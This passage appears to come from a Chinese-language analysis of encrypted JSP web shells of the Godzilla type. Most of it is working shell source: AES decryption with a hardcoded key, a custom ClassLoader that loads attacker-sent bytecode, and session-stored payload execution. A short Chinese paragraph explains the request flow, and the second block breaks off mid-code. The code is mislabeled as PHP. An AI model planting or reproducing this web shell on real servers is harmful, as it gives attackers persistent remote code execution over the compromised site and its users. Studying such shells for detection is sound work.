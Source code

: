 ```php
    try {
        byte[] data = base64Decode(request.getParameter(pass));
        data = x(data, false);

        if (session.getAttribute("payload") == null) {
            session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));
        } else {
            request.setAttribute("parameters", data);
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
            Object f = ((Class) session.getAttribute("payload")).newInstance();
            
            f.equals(arrOut);
            f.equals(pageContext);
            
            response.getWriter().write(md5.substring(0, 16));
            f.toString();
            response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));
            response.getWriter().write(md5.substring(16));
        }
    } catch (Exception e) {}
%>
```

首先获得参数`pass`将其进行`base64`解码，然后进行AES解密。随后判断是否存在`session payload` ，没有则创建，存在则执行恶意代码，返回加密数据，并在两边添加`MD5`字段

### JAVA_AES_RAW

```php
<%! 
    String xc = "3c6e0b8a9c15224a"; 

    class X extends ClassLoader {
        public X(ClassLoader z) {
            super(z);
        }

        public Class Q(byte[] cb) {
            return super.defineClass(cb, 0, cb.length);
        }
    }

    public byte[] x(byte[] s, boolean m) { 
        try {
            javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
            c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
            return c.doFinal(s);
        } catch (Exception e) {
            return null;
        }
    }
%>

<%
    try {
        int contentLength = Integer.parseInt(request.getHeader("Content-Length"));
        byte[] data = new byte[contentLength];

        java.io.InputStream inputStream = request.getInputStream();
        int _num = 0;

        while ((_num += inputStream.read(data, _num, data.length)) < data.length);

        data = x(data, false);
```